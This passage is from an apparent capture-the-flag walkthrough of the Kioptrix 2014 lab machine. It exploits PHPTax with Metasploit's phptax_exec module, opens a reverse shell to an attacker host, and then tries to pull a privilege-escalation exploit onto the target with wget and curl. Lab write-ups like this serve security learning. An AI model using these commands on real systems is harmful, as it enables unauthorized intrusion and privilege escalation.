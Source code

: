 We know now what are we facing. Phptax. Now I won't make the same mistake. First, look for info.  
*https://www.exploit-db.com/exploits/21665/*  
*https://www.exploit-db.com/exploits/25849/*  
*https://www.exploit-db.com/exploits/21833/*  

Yes, straight forward.  

### METASPLOIT  

msf > use exploit/multi/hxxp/phptax_exec  
msf exploit(multi/hxxp/phptax_exec) > show options  
msf exploit(multi/hxxp/phptax_exec) > set rhost 192.168.1.59  
>rhost => 192.168.1.59  
msf exploit(multi/hxxp/phptax_exec) > set rport 8080  
>rport => 8080  
msf exploit(multi/hxxp/phptax_exec) > run  
>[\*] Started reverse TCP double handler on 192.168.1.115:4444   
>[\*] 192.168.1.598080 - Sending request...  
>[\*] Accepted the first client connection...  
>[\*] Accepted the second client connection...  
>[\*] Accepted the first client connection...  
>[\*] Accepted the second client connection...  
>[\*] Command: echo Dyn6WNrvO5arqqAi;  
>[\*] Writing to socket A  
>[\*] Writing to socket B  
>[\*] Reading from sockets...  
>[\*] Command: echo vONiXrkbhARLjybU;  
>[\*] Writing to socket A  
>[\*] Writing to socket B  
>[\*] Reading from sockets...  
>[\*] Reading from socket B  
>[\*] B: "Dyn6WNrvO5arqqAi\r\n"  
>[\*] Matching...  
>[\*] A is input...  
>[\*] Reading from socket B  
>[\*] B: "vONiXrkbhARLjybU\r\n"  
>[\*] Matching...  
>[\*] A is input...  
>[\*] Command shell session 1 opened (192.168.1.115:4444 -> 192.168.1.59:28567) at 2018-05-05 09:41:42 +0200  
>[\*] Command shell session 2 opened (192.168.1.115:4444 -> 192.168.1.59:63427) at 2018-05-05 09:41:42 +0200  
>
>id  
>uid=80(www) gid=80(www) groups=80(www)  
>uname -a  
>FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64  
>wget https://www.exploit-db.com/download/26368.c  
>wget: not found  
>curl https://www.exploit-db.com/download/26368.c -o exploit.c  
>curl: not found  
